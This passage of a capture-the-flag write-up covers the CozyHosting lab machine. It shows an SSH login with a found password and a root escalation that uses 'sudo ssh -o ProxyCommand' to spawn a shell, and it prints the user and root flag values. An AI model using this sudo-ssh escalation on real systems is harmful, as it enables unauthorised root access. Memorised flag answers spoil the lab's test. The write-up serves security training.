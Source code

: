 There's a password, `manchesterunited`, I use it to SSH into the user `josh`.

```
$ ssh josh@cozyhosting.htb
josh@cozyhosting.htb's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-82-generic x86_64)
...
josh@cozyhosting:~$ cat user.txt
e1d078c09c4e025113ee74b108f407ec
```

And there's the user flag! <mark>e1d078c09c4e025113ee74b108f407ec</mark>

## Root Flag

Running `sudo -l` gives us an entry:

```
josh@cozyhosting:~$ sudo -l
[sudo] password for josh:
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

Looking at [ssh entries on GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo) gives us an entry for sudo permissions.

```
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# cat /root/root.txt
55d1af421b8828f1c8c1ccacb64347bb
```

The root flag is: <mark>55d1af421b8828f1c8c1ccacb64347bb</mark>

Success!
